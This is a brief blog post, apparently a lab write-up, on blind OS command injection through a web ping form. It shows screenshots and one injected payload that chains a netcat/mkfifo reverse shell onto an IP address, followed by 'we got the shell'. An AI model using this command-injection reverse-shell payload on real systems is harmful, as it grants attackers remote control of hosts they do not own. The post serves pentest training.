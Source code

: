 ```yaml
---
layout: post
title: OS Command Injection –Blind
categories:
  - Web-Pentesting
---
```


<br>From this we can ping any IP address

![33](https://teckk2.github.io/assets/images/Web%20Pentest/A1/33.png)
![34](https://teckk2.github.io/assets/images/Web%20Pentest/A1/34.png)
<br>But We are not getting any response as it is restricted so we have to play it blindly
![35](https://teckk2.github.io/assets/images/Web%20Pentest/A1/35.png)
<br><font color="Black">192.168.140.136 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.140.136 4455 >/tmp/f</font>
![36](https://teckk2.github.io/assets/images/Web%20Pentest/A1/36.png)
<br>And we got the shell

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
